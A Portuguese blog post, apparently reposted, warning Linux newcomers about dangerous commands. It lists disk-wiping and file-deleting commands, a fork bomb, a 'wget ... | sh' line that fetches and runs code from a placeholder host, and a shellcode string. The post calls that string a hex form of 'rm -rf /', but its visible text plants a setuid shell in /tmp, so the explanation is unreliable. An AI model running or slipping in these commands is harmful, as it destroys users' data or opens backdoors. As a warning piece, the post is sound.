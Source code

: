 ```yaml
---
title: "7 Comandos perigosos."
author: "Nilsonlinux"
output:
 html_document:
   toc: true
   keep_md: yes
categories: Terminal
layout: post
featured_image: /images/linux/7-comand-danger.png
---
```




## 7 comandos perigosos do Linux que você NUNCA deve executar  ##

Como o número de usuários leigos de Linux vem aumentando com o tempo, acho pertinente alertar as pessoas sobre alguns comandos que podem ser perigosos, tanto para o sistema, quanto para os dados contidos no computador. 

Como o número de usuários leigos de Linux vem aumentando com o tempo, acho pertinente alertar as pessoas sobre alguns comandos que podem ser perigosos, tanto para o sistema, quanto para os dados contidos no computador.

O terminal é uma ferramenta muito poderosa, por conta disso é bom você dominá-lo, ou pelo menos entendê-lo, para evitar problemas no seu sistema baseado em Linux.
 Os grandes problemas que você pode enfrentar usando o terminal de forma indiscriminada normalmente estão atrelados a comandos de sobrescrita de dados, então vamos mostrar alguns aqui que você deve prestar especial atenção quando vir alguém sugerindo que você faça no seu computador com Linux.

Atenção: Você NÃO deve executar nenhum destes comandos no seu computador, isso pode causar danos irreversíveis que nós não nos responsabilizamos, o artigo tem a intenção de ser instrutivo, justamente para evitar este tipo de situação.

1 - ```rm -rf```

É um comando clássico do do Linux que teoricamente não faz nada de mais, ele serve apenas para apagar arquivos, e é aí que mora o perigo. Dependendo da forma que ele for aplicativo o resultado pode ser muito desagradável, por isso é importante você entender o que os comandos fazem, vamos explicar um pouco melhor neste exemplo:
- rm: comando usado no Linux para deletar arquivos.
- rm -r: o comando deleta pastas recursivamente, mesmo que a pastas esteja vazia.
- rm -f: cUsando este parâmetro, o propriedade de "apenas leitura" que um arquivo tenha é removida sem perguntar, permitindo que o arquivo seja apagado.
- rm -rf / : Usando a combinação dos dois parâmetros com a "/" você diz para o sistema apagar tudo que está no diretório raiz do sistema.
- rm -rf * : Força o apagamento de tudo que está no diretório atual ou no de trabalho, dependendo de onde você estiver.
- rm -rf . : Acrescentando um ponto, você pode apagar também as pastas ocultas, além das normais.

Tome muito cuidado ao executar um comando destes, especialmente se for feito como root ou usando o sudo.

 Tão perigoso que pode ser este comando, que atualmente o Linux se protege contra ele, se você rodá-lo, mesmo com sudo ou como root, ele não vai funcionar, para isso é preciso usar os parâmetros descritos na imagem acima. Da mesma forma que o Linux protege você de destruir o sistema sem querer, ele também permite que você o destrua mediante a ter certeza de que é realmente isso que você quer, curioso, não é?

2 - ```:(){:|:&};:```

Este comando funciona como uma "Fork Bomb", ele opera definindo uma função chamada ':', que se chama duas vezes, uma vez em primeiro plano e outra em segundo plano, o processo se repete indefinidamente até que o sistema trave.

3 - qualquer comando para > /dev/sda

A forma com que o Linux lê as partições e discos é diferente do Windows, por conta disso, normalmente novatos não conseguem entender em primeira instância como eles são distribuídos. Normalmente a localização dos dispositivos de armazenamento do sistema ficam dentro de /dev, sendo que podem haver vários por ali e normalmente o sda está presente.

O problema do comando acima é que ele redireciona a saída de qualquer comando que seja colocado para o seu bloco de armazenamento, desta foma sobrescrevendo alguns dados e corrompendo outros.

4 - ```mv pasta/diretório /dev/null```

Eu costumava brincar sobre o /dev/null me referindo a ele como o "buraco negro" do Linux. Tudo que é enviado para ele é perdido "para sempre". Então tome cuidado ao mover qualquer coisa para esta localização. O comando mv serve para mover arquivos ou diretórios para o destino indicado, se este destino for o /dev/null você estará mandando seus arquivos pra Nárnia.

5 - ```wget http://malicious_source -O- | sh```

Este comando vai aparecer para você instalar alguns programas. O wget é o programa responsável por fazer o download da URL que vem logo após, ele é bem útil para baixar arquivos em geral, o problema está no arquivo que ele baixa e na sequência do comando  que o executa no caso dele ser um shell script. Só baixe arquivos desta forma de fontes que você considera confiáveis e se estiver na dúvida, baixe apenas o arquivo de shell, eliminando qualquer parâmetro que apareça após o link, assim você pode abrir ele em um editor de texto de sua preferência e verificar o que há dentro dele.

6 - ```dd if=/dev/random of=/dev/sda```

Assim como o ítem 3 da nossa lista, o grande problema aqui é o destino ser o /dev/sda. Tome cuidado. O comando dd pode ser muito útil para copiar arquivos e até mesmo partições inteiras, como no exemplo 6, mas se a saída for um outro disco, tome cuidado, pois o resultado irá sobrepor os dados lá existentes.

7 - Comandos disfarçados

Como eu comentei à princípio, o terminal é uma ferramenta poderosa, se você não dominá-lo, é bom ter cuidado com que você for rodar nele, se o você não fala a língua do terminal, saiba que ele fala muitas outras. O comando abaixo nada mais é do que o comando indicado no primeiro item da nossa lista, só que em forma hexadecimal.

    char esp[] __attribute__ ((section(“.text”))) /* e.s.p release */ = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″ “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″ “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″ “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″ “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″ “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″ “\x6e\x2f\x73\x68\x00\x2d\x63\x00″ “cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;”;


Ele tem o mesmo propósito do famigerado "rm -rf /", por isso, não rode coisas no terminal que você não sabe para quem servem, existem muito conteúdo grátis a internet para você estudar sobre e até mesmo alguns bons cursos pagos, como é o caso do "Dominando o Terminal" aqui do blog mesmo, mas em linhas gerais, se você evitar colocar comandos que você não sabe para que servem direito, os problemas já serão minimizados. 

Agora espalhe este conhecimento para ajudar mais pessoas a ficarem precavidas sobre estes pequenos percalços da vida computacional.

Fonte; https://www.diolinux.com.br/2017/01/7-comandos-mais-perigosos-linux.html